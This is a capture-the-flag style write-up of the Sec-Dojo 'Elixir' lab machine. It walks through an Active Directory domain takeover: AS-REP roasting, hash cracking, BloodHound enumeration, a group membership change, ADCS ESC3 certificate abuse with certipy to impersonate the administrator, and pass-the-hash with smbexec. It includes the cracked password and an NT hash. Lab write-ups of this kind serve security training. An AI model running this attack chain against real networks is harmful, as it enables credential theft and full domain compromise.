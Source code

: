 ```yaml
---
layout: post
title: "Elixir"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, Secdojo]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
# image:
#   path: /assets/img/commons/hackthebox.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt: Hackthebox Image
---
```


Elixir is an easy machine on [secdojo platform](https://cyberlab.sec-dojo.com/en/labs/active)


starting with nmap 

```bash
sudo nmap 10.8.0.2 -sC -sV -p- -oN nmap -T4
```

![/home/user/myblog/_site](/_site/assets/img/posts/Elixir/Pasted image 20241011181947.png)




so it's a DC with an open web page on port 80


by reading the HTML code of page , I found the format of users in the Domain 

`Em.Br`
```HTML
  <!-- Footer-->
    <footer id="contact" class="py-5 bg-black">
        <div class="container px-5">
            <p class="m-0 text-center text-white small"><a href="[mailto:Em.Br@secdojo.local](mailto:Em.Br@secdojo.local)" class="text-white">Email us</a></p>
            <p class="m-0 text-center text-white small">Copyright &copy; Sec-Dojo 2024</p>
        </div>
    </footer>
    <!-- Bootstrap core JS-->
    <script src="[js/bootstrap.bundle.min.js](view-source:http://10.8.0.2/js/bootstrap.bundle.min.js)"></script>
    <!-- Core theme JS-->
    <script src="[js/scripts.js](view-source:http://10.8.0.2/js/scripts.js)"></script>
</body>
</html>
```

 I make a wordlist with all the users in the website using the  same format 

```txt
Em.Br
Ad.Cr
Bo.Jo
```


the only attacks that comes in my mind at this moment is asreproasting 

```bash
impacket-GetNPUsers secdojo.local/ -usersfile users  -outputfile asrep
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011180718.png)

```bash
 hashcat -a 0 asrep /usr/share/wordlists/rockyou.txt

$krb5asrep$23$Ad.Cr@SECDOJO.LOCAL:d51be14d3aa50cb4f878950c397fd52c$f6861835364bb255acdcf9cb14e162e410a8ce07597fed7fafc410ed59b3cab97255441f8b652e6a63951e183ea7b759f6a7f5e73762c8d535316b891ef5c47fbf9350c525713fa067ab80329803e8fb6a37548eaf1f14cc5d39d0f9897c0a84335f0edc83c6a8a65d89c132ac345c2693825d9dd554f563fa908213672fcd2153e24283ad59f3040a194352a46b95646922542ea37a7be06f17478fcdbe0e18e1ce6340b73707dc3a08b1f1eb1dc2f7154ecfb5315b166ebf859139aafbbf4986a3181a0e44b95b6327e9df8edb4412b0aa6a927c5c6ed7511b1984bd9884f9b4e5c1a9ce437acf6715fd07f804:RockYou!
```


after enumerating the shares , ADCS nothing really interesting 

so let's see bloodhound
```bash
RustHound/target/release/rusthound  -d secdojo.local -u 'Ad.Cr@secdojo.local' -p 'RockYou!'   -z
```

taking a look at bloodhound

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011181025.png)


we can add our controlled user to `HELPDESK Group`

```bash
net rpc group addmem "HelpDesk" "AD.CR" -U "secdojo.local"/"AD.CR"%"RockYou\!" -S "10.8.0.2"
```

well , I was stuck here for long time 

remember  : enumeration is iterative process which means when you got new user / group ...

I should redo the whole enumeration again , (Including ADCS).

when running `Certipy` at first it didn't catch the `ESC3` , after adding my user to `helpdesk user` it does , because this group has the right to enroll this template 

```bash
certipy-ad find -u Ad.Cr -p 'RockYou!' -stdout  -dc-ip 10.8.0.2
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011182048.png)

```bash
certipy-ad req -u 'Ad.Cr@secdojo.local' -p 'RockYou!' -ca 'SecDojoRootCA' -template 'Enrollement' -dc-ip 10.8.0.2
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011182150.png)

```bash
certipy-ad req -u 'Ad.Cr@secodjo.local' -p 'RockYou!' -ca 'SecDojoRootCA'  -template 'User' -on-behalf-of 'administrator' -pfx ad.cr.pfx -dc-ip 10.8.0.2
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011182250.png)

```bash
 certipy-ad auth -pfx administrator.pfx
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011182314.png)


the stupid AV will catch psexec :(
```bash
impacket-smbexec secdojo.local/Administrator@10.8.0.2  -hashes :91c49c1fad45e7b9dbdcd7d3c44a880d
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011183756.png)

